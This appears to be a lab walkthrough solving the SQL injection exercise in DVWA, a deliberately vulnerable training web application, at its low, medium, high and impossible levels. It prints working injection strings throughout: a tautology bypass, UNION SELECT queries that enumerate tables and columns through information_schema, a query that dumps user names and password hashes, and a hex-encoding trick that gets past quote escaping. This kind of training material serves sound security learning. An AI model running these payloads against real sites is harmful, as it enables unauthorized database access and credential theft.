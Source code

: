 # DVWA - SQL Injection Solution


## Low level
> In this level we can see the web doesn't filter any character.
> 
> ![](https://i.imgur.com/RA0RxD7.png)

> So, we can use `' or '1' = '1` to bypass and get the all data inb SQL. 
> 
> ![](https://i.imgur.com/F5Wyop9.png)

> We also can use `1' or 1=1 order by 1 #` or `1' union select 1,2 #` to guess how many column there have in the SQL. 
> Use `1' union select 1,database() #` to know what database we are. 
> 
> ![](https://i.imgur.com/AObQp2l.png)

> Use `1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #` to get the table.
> 
> ![](https://i.imgur.com/x5QwtGW.png)

> Use `1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #` to get the text of the table.
> 
> ![](https://i.imgur.com/vzKXgPJ.png)

> Use the `1' or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #` to download all of data in the table.
> 
> ![](https://i.imgur.com/IZdCYXR.png)
> 

## Medium level
> In this level we can see, it use the scroll bar to select. And it use `mysql_real_escape_string` to transfer some character. So, we can use the brup suite to edit the package.
> 
> ![](https://i.imgur.com/CYYdgfT.png)

> Edit the id to `1 or 1=1` .
> 
> ![](https://i.imgur.com/DR93MPl.png)

> And we can get the all of the data in SQL.
> 
> ![](https://i.imgur.com/CI1BexM.png)
> 
> We can use the same like the low level to get the information in SQL. 
> Notice if we need to use `1 union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #` the `'` is transfered to `/'`. Therefore we can transfer the `user` to hex like `1 union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273 #`

## High level
> We can see in high level it use `LIMIT 1` to limit the output, but we can use `#` to skip the text after `#`.
> Then we can use the way like Low level to bypass.
> 
> ![](https://i.imgur.com/bklYR19.png)


## Impossible level
> In this level it use the PDO and add the Anti-CSRF token to avoid the SQL injection and CSRF attack. So, we don't have any way to use the SQL injection to attack.











